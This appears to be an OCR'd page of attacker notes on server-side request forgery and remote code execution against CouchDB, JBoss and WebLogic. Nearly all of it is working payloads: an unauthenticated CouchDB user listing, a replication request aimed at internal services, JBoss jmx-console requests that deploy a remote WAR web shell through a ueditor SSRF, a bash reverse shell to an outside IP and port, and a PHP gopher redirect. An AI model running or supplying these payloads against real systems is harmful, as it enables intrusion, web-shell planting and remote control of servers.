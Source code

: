 CouchDB

exploit:

http://localhost:5984/_users/_all_docs
HTTP/1.1 200 OK
Server: CouchDB/1.2.0 (Erlang OTP/R15B01)
ETag: "BD1WV12007V05JTG4X6YHIHCA"
Date: Tue, 18 Dec 2012 21:39:59 GMT
Content-Type: text/plain; charset=utf-8
Cache-Control: must-revalidate

{"total_rows":1,"offset":0,"rows":[
{"id":"_design/_auth","key":"_design/_auth","value":{"rev":"1-a8cfb993654bcc635f126724d39eb930"}}
]}

Attacker could also send requests from CouchDB server to intranet by using replication function

POST http://couchdb:5984/_replicate
Content-Type: application/json
Accept: application/json

{
    "source" : "recipes",
    "target" : "http://ssrf-me:11211/recipes",
}

###########################################

Jboss

Jbosss POC:

/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://our_public_internet_server/utils/cmd.war

Shell:

http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://10.0.0.1:8080/jmx-console/HtmlAdaptor?action=invokeOp%26name=jboss.system%3Aservice%3DMainDeployer%26methodIndex=3%26arg0=http%3A%2F%2F远端地址%2Fhtml5.war%23.jpg
http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://内网IP:8080/html5/023.jsp%23.jpg

Reverse shell:

bash -i >& /dev/tcp/123.45.67.89/9999 0>&1

###########################################

Weblogic

gopher.php:

<?php
	header("Location:gopher://vps-ip:2333/_test");
?>
